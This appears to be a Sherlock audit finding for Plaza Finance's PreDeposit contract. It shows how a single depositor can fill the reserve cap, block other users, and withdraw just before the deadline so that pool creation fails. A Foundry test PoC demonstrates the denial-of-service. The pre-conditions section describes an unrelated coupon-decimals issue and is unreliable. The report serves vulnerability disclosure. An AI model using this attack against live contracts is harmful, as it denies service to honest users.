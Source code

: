 Faint Violet Snake

High

# Exploiting Lack of Per-User Deposit Limit to Prevent Pool Creation in PreDeposit Contract

### Summary

The contract has a reserveCap of 10,000 tokens.
The attacker deposits 9,999 tokens (just 1 token less than the reserve cap).
 The attacker attempts to deposit 2 tokens again.
In this case,  balances[attacker] is 10,000.
And the others cannot deposit.
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/PreDeposit.sol#L124
Just before the deposit period ends (depositEndTime), the attacker withdraws their entire deposit of 10,000 tokens.
So reserveAmount is updated to 0.
balances[attacker] is updated to 0.
so createPool function cannot perform.
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/PreDeposit.sol#L150

### Root Cause


A single user (attacker) can deposit almost the entire reserve cap, leaving no room for others.
The contract adjusts deposits to fit the remaining cap, allowing the attacker to perfectly fill it with a second deposit.
The attacker can withdraw the full amount just before the deposit ends, leaving the pool with no funds to create a pool.

### Internal Pre-conditions

The Pool calculates couponAmountToDistribute in normalized 18 decimals.
The Auction processes bids with raw sellCouponAmount values.

### External Pre-conditions

Users place bids using sellCouponAmount without normalization.
Auction ends, and sellCouponAmount is transferred to the Pool.

### Attack Path

An attacker deposits twice - first  most of  reservecap (10,000 tokens) and some amount into the contract, reaching the maximum reserve capacity.
This prevents any other users from depositing tokens since the reserve cap has already been reached.
Just before the deposit period ends, the attacker withdraws their entire deposit of 10,000 tokens.
The total reserveAmount in the contract now becomes 0, leaving no funds to create the pool.
Since no deposits are left in the contract, the pool cannot be created.
Honest users who were prevented from depositing earlier cannot participate in the pool creation process, rendering the pool creation process unsuccessful.

### Impact

 The attacker can prevent the creation of the pool, effectively disrupting the protocol's intended functionality(DOS).
 Honest participants are unable to contribute to the pool because the reserve cap is monopolized by the attacker.
Such behavior can erode user trust in the protocol, as the system appears susceptible to manipulation.

### PoC

```solidity
function testDoSAttackWithReserveCap() public {
    uint256 attackerFirstDeposit = RESERVE_CAP - 1 ether;
    uint256 attackerSecondDeposit = 1 ether;

    // Attacker deposits almost the entire reserveCap
    vm.startPrank(user1); // Attacker as `user1`
    reserveToken.approve(address(preDeposit), attackerFirstDeposit);
    preDeposit.deposit(attackerFirstDeposit);
    assertEq(preDeposit.balances(user1), attackerFirstDeposit, "First deposit balance mismatch");
    assertEq(preDeposit.reserveAmount(), attackerFirstDeposit, "First deposit reserve mismatch");

    // Attacker deposits the remaining amount to reach the reserveCap
    reserveToken.approve(address(preDeposit), attackerSecondDeposit);
    preDeposit.deposit(attackerSecondDeposit);
    assertEq(preDeposit.balances(user1), RESERVE_CAP, "Second deposit balance mismatch");
    assertEq(preDeposit.reserveAmount(), RESERVE_CAP, "ReserveCap not reached");
    vm.stopPrank();

    // Another user tries to deposit but fails due to reserveCap being reached
    vm.startPrank(user2);
    reserveToken.approve(address(preDeposit), DEPOSIT_AMOUNT);
    vm.expectRevert(PreDeposit.DepositCapReached.selector);
    preDeposit.deposit(DEPOSIT_AMOUNT);
    vm.stopPrank();

    // Attacker withdraws their deposit just before the deposit period ends
    vm.startPrank(user1);
    vm.warp(block.timestamp + 7 days - 1 hours); // Just before depositEndTime
    preDeposit.withdraw(RESERVE_CAP);
    assertEq(preDeposit.balances(user1), 0, "Withdrawal failed to update balance");
    assertEq(preDeposit.reserveAmount(), 0, "Reserve amount not reset after withdrawal");
    vm.stopPrank();

    // Governance attempts to create the pool but fails due to zero reserve amount
    vm.startPrank(governance);
    preDeposit.setBondAndLeverageAmount(BOND_AMOUNT, LEVERAGE_AMOUNT);
    vm.warp(block.timestamp + 7 days); // After depositEndTime
    vm.expectRevert(PreDeposit.NoReserveAmount.selector);
    preDeposit.createPool();
    vm.stopPrank();
}
```

### Mitigation

Limit the maximum amount a single user can deposit to ensure fair participation.

